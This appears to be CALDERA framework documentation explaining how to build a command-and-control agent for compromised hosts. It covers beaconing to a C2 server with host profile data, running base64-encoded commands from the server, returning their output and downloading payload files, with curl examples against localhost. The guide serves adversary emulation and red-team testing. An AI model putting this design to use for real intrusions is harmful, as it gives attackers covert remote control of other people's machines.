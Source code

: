 How to Build Agents
================

Building your own agent is a way to create a unique - or undetectable - footprint on compromised machines. Our
default agent, 54ndc47, is a representation of what an agent can do. This agent is written in GoLang and offers
an extensible collection of command-and-control (C2) protocols, such as communicating over HTTP or GitHub Gist. 

You can extend 54ndc47 by adding your own C2 protocols in place or you can follow this guide to create your own agent 
from scratch.

## Understanding contacts

Agents are processes which are deployed on compromised hosts and connect with the C2 server periodically for instructions.
An agent connects to the server through a *contact*, which is a specific connection point on the server.

Each contact is defined in an independent Python module and is registered with the contact_svc when the server starts.

There are currently several built-in contacts available: http, tcp, udp and websocket. 

## Building an agent: HTTP contact

Start by getting a feel for the HTTP endpoint, which are located in the contacts/contact_http.py module.
```
POST  /beacon 
```
### Part #1

Start by writing a POST request to the /beacon endpoint. 

In your agent code, create a flat JSON dictionary of key/value pairs and ensure the following properties are included
as keys. Add values which correlate to the host your agent will be running on. Note - all of these properties are
optional - but you should aim to cover as many as you can.

> If you don't include a platform and executors then the server will never provide instructions to the agent, as it 
won't know which ones are valid to send. 

| Key           | Value  | Notes |
| :------------- |:------------- |:-------------|  
| server        | The location (IP or FQDN) of the C2 server    | |
| platform      | The operating system | The platform is evaluated against the platform field of each ability. Currently you can use windows, darwin or linux |
| host          | The hostname of the machine | |
| username      | The username running the agent | |
| architecture  | The architecture of the host. | |
| executors     | A list of executors allowed on the host | Executors are evaluated against the executor block of each ability. Currently, you can use sh, cmd, psh and pwsh |
| privilege     | The privilege level of the agent process, either User or Elevated | Privilege is evaluated against the optional privilege block of each ability file |
| pid           | The process identifier of the agent | |
| location      | The location of the agent on disk | |
| exe_name      | The name of the agent binary file | |

At this point, you are ready to make a POST request with the profile to the /beacon endpoint. You should get back:

1) The recommended number of seconds to sleep before sending the next beacon
2) The recommended number of minutes (watchdog) to wait before killing the agent, once the server is unreachable (0 means infinite)
3) A list of instructions - base64 encoded.
```
profile=$(echo '{"server":"http://127.0.0.1:8888","platform":"darwin","executors":["sh"]}' | base64)
curl -s -X POST -d $profile localhost:8888/beacon | base64 --decode
...{"paw": "dcoify", sleep": 59, "watchdog": 0, "instructions": "[...]"}
```

> The paw property returned back from the server represents a unique identifier for your new agent. Each
time you call the /beacon endpoint without this paw, a new agent will be created on the server - so you should ensure
that future beacons include it.

You can now navigate to the CALDERA UI, click into the agents tab and view your new agent. 

### Part #2

Now it's time to execute the instructions. 

Looking at the previous response, you can see each instruction contains:

* **id**: The link ID associated to the ability
* **sleep**: A recommended pause to take after running this instruction
* **command**: A base64 encoded command to run
* **executor**: The executor to run the command under
* **timeout**: How long to let the command run before timing it out
* **payload**: A payload file name which must be downloaded before running the command, if applicable

Now, you'll want to revise your agent to loop through all the instructions, executing each command
and POSTing the response back to the /beacon endpoint. You should pause after running each instruction, using the sleep time provided inside the instruction.
```
data=$(echo '{"result":{"id":$id, "output":$output, "status": $status, "pid":$pid}}' | base64)
curl -s -X POST -d $data localhost:8888/beacon
sleep $instruction_sleep
```

The POST details inside the result are as follows:

* **id**: the ID of the instruction you received
* **output**: the base64 encoded output from running the instruction
* **status**: the status code from running the instruction. If unsure, put 0.
* **pid**: the process identifier the instruction ran under. If unsure, put 0.

Once all instructions are run, the agent should sleep for the specified time in the beacon before calling the /beacon 
endpoint again. This process should repeat forever. 

### Part #3

Inside each instruction, there is an optional *payload* property that contains a filename of a file to download
before running the instruction. To implement this, add a file download capability to your agent, directing it to
the /file/download endpoint to retrieve the file:
```
payload='some_file_name.txt"
curl -X POST -H "file:$payload" http://localhost:8888/file/download > some_file_name.txt
```

### Part #4

You should implement the watchdog configuration. This property, passed to the agent in every beacon, contains
the number of minutes to allow a dead beacon before killing the agent. 
